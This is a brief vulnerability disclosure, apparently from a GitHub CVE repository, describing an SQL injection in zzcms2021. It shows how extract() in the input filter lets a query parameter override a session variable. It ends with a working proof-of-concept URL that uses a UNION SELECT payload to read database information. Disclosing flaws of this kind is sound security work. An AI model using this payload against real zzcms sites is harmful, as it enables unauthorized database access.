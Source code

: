 + version: zzcms2021
+ source: http://www.zzcms.net/about/6.htm
+ issue: sql injection

# Position
in `ask/add.php` line 91

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217222912.png)

`$_SESSION["bigclassid"]` is an injection point,and `$row["classid"]` is output to the web page 

in `inc/stopsqlin.php`

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217223618.png)

function `zc_check` filters `$_GET` and `$_POST` ,and then executes `@extract($_POST);@extract($_GET);`,so we can use the `extract` function to override `$_SESSION["bigclassid"]`

# Poc
`/ask/add.php?_SESSION[bigclassid]=0 union select user(),2,3,4,5,6,7,8,9,10,11--+`

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217224442.png)